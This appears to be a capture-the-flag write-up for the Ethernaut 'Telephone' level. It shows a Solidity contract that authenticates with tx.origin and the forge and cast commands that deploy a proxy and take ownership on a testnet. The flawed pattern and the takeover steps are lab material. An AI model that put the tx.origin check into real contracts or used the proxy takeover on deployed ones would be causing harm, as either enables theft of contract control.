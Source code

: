 ```yaml
---
title: "Telephone"
tags: ["Proxy"]
reference: https://ethernaut.openzeppelin.com/level/4
---
```


# Description

Claim ownership of the contract below to complete this level.

- Things that might help


```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

# Solution

1. What is `tx.origin`?

In Solidity, tx.origin is a global variable that refers to the original external account (EOA) that initiated the transaction — even if the transaction passes through multiple smart contracts.

We can make `tx.origin != msg.sender` by calling `changeOwner` via a proxy contract?

2. Deploy [TelphoneProxy](lv_4/src/Proxy.sol) smart contract

```
forge create src/Proxy.sol:TelephoneProxy --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
[⠃] Compiling...
No files changed, compilation skipped
Enter keystore password:
Deployer: 0xB1473Ba227C4645501E0e05f4839b00ED8320d33
Deployed to: 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd
Transaction hash: 0x5c23660ca92a840f8525ea631768475afbb5e988cde58e49b93ce96d3d1ad261
```

3. Get player and victim contract addresses

```
=> Instance address0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5
player
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```

4. Call `changeOwner()`

```
cast send 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd "changeOwner(address,address)" 0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5 0xB1473Ba227C4645501E0e05f4839b00ED8320d33 --rpc-url $BASE_SEPOLIA_RPC --private-key 
```

5. check the updated owner

```
await contract.owner()
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```
